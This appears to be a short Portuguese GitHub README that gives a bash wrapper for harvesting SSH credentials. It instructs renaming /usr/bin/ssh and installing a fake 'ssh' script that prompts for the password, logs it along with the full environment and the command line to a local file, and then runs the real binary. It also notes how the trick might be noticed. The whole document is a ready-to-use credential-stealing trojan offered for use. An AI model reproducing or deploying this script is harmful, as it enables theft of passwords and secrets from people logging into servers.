 Uma forma simples de obter credenciais para acessar servidores via ssh sem utilizar binários modificados

1 - Binário original do ssh deverá ser renomeado, como pode exemplo de `/usr/bin/ssh`para `/usr/bin/ssh7`
2 - Deverá ser criado um script em bash chamado ssh que irá salvar as variáveis de ambiente e criar um input fake pedindo a senha e depois chamar o binário do ssh

Script bash
```bash
#!/bin/bash

OUTFILE=/home/mksx/env-dump/ssh/`date +"%d-%m-%Y-%H-%M-%S.txt"`

if echo $@ | grep -q ' -i '; then
        env > $OUTFILE
        echo "ssh $@" >> $OUTFILE
        unset $OUTFILE
        ssh7 $@
        exit
fi

while true; do
        echo -n "Password: "
        read -sr SSH_PASS
        if [ -z "$SSH_PASS" ]; then
                echo ''
                continue
        else
                break
        fi
done

env > $OUTFILE

echo "ssh $@ ($SSH_PASS)" >> $OUTFILE

unset $OUTFILE
unset $SSH_PASS

ssh7 $@
```

### Observação
 1 - Alteração poderá quebrar o uso do sshpass
 2 - Alteração poderá quebrar scripts que utilização expect
 3 - Caso a senha digitada esteja incorreta, a senha correta que será digitada novamente não será salva
 4 - Outros argumentos podem atrapalhar fazendo o usuário perceber que tem algo de estranho, como a opção -h
